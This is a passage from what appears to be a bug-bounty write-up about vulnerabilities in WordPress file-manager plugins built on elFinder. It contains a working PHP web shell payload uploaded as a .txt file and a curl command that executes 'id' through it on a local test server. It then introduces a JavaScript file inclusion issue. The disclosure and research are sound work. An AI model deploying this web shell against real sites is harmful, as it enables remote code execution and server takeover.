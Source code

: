 Then, upload a `.txt` file with our PHP payload:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|19:45:27(HKT)]
└> echo -n ';;<?php system($_GET["cmd"]); ?>' > webshell.txt
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108200302.png)

Finally, we should be able to execute arbitrary PHP code via sending a request to path `wp-content/plugins/file-manager-advanced/application/library/files/<uploaded_filename>.txt`:

```shell
└> curl --get http://localhost/wp-content/plugins/file-manager-advanced/application/library/files/webshell.txt --data 'cmd=id'
;;uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice!

## No Path Validation in Loading elFinder Locale Script - [FileOrganizer: Local JavaScript File Inclusion](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fileorganizer/fileorganizer-114-authenticated-administrator-local-javascript-file-inclusion)

Since elFinder uses jQuery for the UI, now it's a great time to review some misconfigurations/mistakes on the client-side!

During finding exact same vulnerabilities across 5 different WordPress plugins that are using elFinder library, I've been thinking this: "**Does anyone ever reported a vulnerability related to common misconfiguration/mistake in elFinder?**" I then decided to check out the most popular file manager plugin, "[File Manager](https://wordpress.org/plugins/wp-file-manager/)" (Formaly known as "WP File Manager"). One vulnerability caught my eye on the [Wordfence vulnerability database](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-file-manager): "[File Manager <= 7.2.4 - Cross-Site Request Forgery to Local JS File Inclusion](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-file-manager/file-manager-724-cross-site-request-forgery-to-local-js-file-inclusion)".
